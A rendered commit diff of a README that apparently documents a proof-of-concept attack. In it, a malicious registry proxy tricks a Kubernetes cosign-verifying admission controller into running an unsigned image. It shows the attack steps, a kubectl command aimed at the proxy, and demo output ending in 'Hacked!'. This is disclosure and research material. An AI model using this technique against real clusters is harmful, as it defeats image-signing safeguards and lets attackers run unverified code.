

Before and after one commit to slashben/beat-ac-cosign-verifier, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 84% size. Rendered like a GitHub page; pictures changed too: docs/dia2.png, docs/screenshot1.png; blank space fills up the shorter version.

Commit message:
updating images

```diff
--- a/README.md
+++ b/README.md
@@ -55,16 +55,15 @@ The proxy server behaves in the following way: if it sees that the Admission Con
 ![Image validation in admission controller](docs/dia2.png "Title")
 
 The attack steps are as follows:
-1. The user is convinced to run the signed image from the “Malicious proxy”
-2. kubectl -n signed run unsigned --image=10.0.2.15:4443/hisu/cosign-tests:signed --image-pull-policy='Always'
-3. API server asks the admission controller for approval
-4. The Admission Controller asks for the image manifest and signature from the “signed image”
-5. The malicious proxy returns the “signed image” to the Admission Controller
-6. The Admission Controller verifies the signature of the signed image
-7. The Admission Controller request the manifest of the signed image for the second time to get the digest for mutation
-8. The malicious proxy returns the manifest of the unsigned image
-9. The Admission Controller mutates the image in the Pod spec based on the manifest in step 8 and gives approval to the API server
-10. Kubelet is asked to start the POD
+1. The user is convinced to run the signed image from the “Malicious proxy” && kubectl -n signed run unsigned --image=10.0.2.15:4443/hisu/cosign-tests:signed --image-pull-policy='Always'
+2. API server asks the admission controller for approval
+3. The Admission Controller asks for the image manifest and signature from the “signed image”
+4. The malicious proxy returns the “signed image” to the Admission Controller
+5. The Admission Controller verifies the signature of the signed image
+6. The Admission Controller request the manifest of the signed image for the second time to get the digest for mutation
+7. The malicious proxy returns the manifest of the unsigned image
+8. The Admission Controller mutates the image in the Pod spec based on the manifest in step 7 and gives approval to the API server
+9. Kubelet is asked to start the POD
 
 **The container is started based on the unsigned image**
 
@@ -160,17 +159,27 @@ pod/signed created
 ----------------------------------------
 2> Succeeded to run signed image in signed namespace
 Press enter to continue
-3> Trying to run unsigned image in signed namespace by using the proxy
+3> Trying to run signed image in signed namespace by using the proxy
 ----------------------------------------
-kubectl -n signed run unsigned --image=10.100.102.57:4443/hisu/cosign-tests:unsigned --image-pull-policy=Always
+kubectl -n signed run unsigned --image=10.144.94.202:4443/hisu/cosign-tests:signed --image-pull-policy=Always
 pod/unsigned created
 ----------------------------------------
+3> Waiting for pod to be ready
+pod/unsigned condition met
+3> Checking HTTP response from the pod
+----------------------------------------
+Forwarding from 127.0.0.1:8080 -> 80
+Forwarding from [::1]:8080 -> 80
+curl -s -k -v http://localhost:8080
+*   Trying 127.0.0.1:8080...
+<h1>Hacked!</h1>
  ___ _   _  ___ ___ ___  ___ ___
 / __| | | |/ __/ __/ _ \/ __/ __|
 \__ \ |_| | (_| (_|  __/\__ \__ \
 |___/\__,_|\___\___\___||___/___/
 
-3> Succeeded to run unsigned image in signed namespace by using the proxy
+3> Proxy could inject an unsigned image in signed namespace
+----------------------------------------
 Press enter to continue
 pod "unsigned" deleted
 pod "signed" deleted
```
Also changed, not shown: other parts of README.md (+1 -1 lines).
